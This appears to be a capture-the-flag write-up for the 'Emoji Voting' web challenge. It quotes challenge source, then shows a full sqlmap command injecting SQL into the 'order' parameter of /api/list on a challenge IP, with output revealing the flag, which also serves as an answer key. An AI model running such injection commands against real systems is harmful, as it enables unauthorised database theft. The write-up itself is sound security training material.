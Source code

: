# Emoji Voting
![Image](<../Pasted image 20210423104326.png>)
## Code analysis
Looking through the source code given we see a database is set up with our flag contained in it. This leads me to believe we will have to do some sort of sql injection.

```sql
...snip...
    async migrate() {  
        let rand = crypto.randomBytes(5).toString('hex');           
                                                                    
        return this.db.exec(`           
            DROP TABLE IF EXISTS emojis;               
            DROP TABLE IF EXISTS flag_${ rand };
                                                                                                                                        
            CREATE TABLE IF NOT EXISTS flag_${ rand } (
                flag TEXT NOT NULL
            );            
                                                                    
            INSERT INTO flag_${ rand } (flag) VALUES ('CHTB{f4k3_fl4g_f0r_t3st1ng}')
...snip...
```

Looking at our main.js file, we notice there are two request that can be made. One through the list api and the other through the vote api.

```js
...snip...
const getEmojis = () => {
        fetch('/api/list', {
        method: 'POST',
        body: JSON.stringify({
            order: 'count DESC'
        }),
        headers: {
            'Content-Type': 'application/json'
        }
    })
        .then(res => res.json())
        .then(data => {
                emojis.innerHTML = '';
                data.forEach(emoji => {
                        addEmoji(emoji);
                });
        })
};

const vote = (id) => {
    fetch('/api/vote', {
        method: 'POST',
        body: JSON.stringify({
            id: id
        }),
        headers: {
            'Content-Type': 'application/json'
        }
    })
    .then(res => {
        if (res.ok) {
            update();
...snip...
```
## Exploitation
Knowing that it  is possibly SQLi, and there are two APIs in play, I decided to run sqlmap on both of these. I ended up getting succesful injection on the list api as shown and retrieved the flag.

```bash
 $sqlmap -u http://206.189.121.131:31286/api/list --headers "Content-Type: Application/json" --data '{"order":"count DESC"}' --level 5 --risk 3 -p order --batch --os='linux' --dbms='SQLite'  --random-agent --time-sec=1 -D SQLite_masterdb -T flag --search
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
*
...snip...
[11:41:35] [INFO] fetching entries for table 'flag_5e3a2f9b8b'
[11:41:35] [INFO] fetching number of entries for table 'flag_5e3a2f9b8b' in database 'SQLite_masterdb'
[11:41:35] [INFO] retrieved: 1
[11:41:39] [INFO] retrieved: CHTB{order_me_this_juicy_info}
Database: <current>
Table: flag_5e3a2f9b8b
[1 entry]
+--------------------------------+
| flag                           |
+--------------------------------+
| CHTB{order_me_this_juicy_info} |
+--------------------------------+

...snip...
```

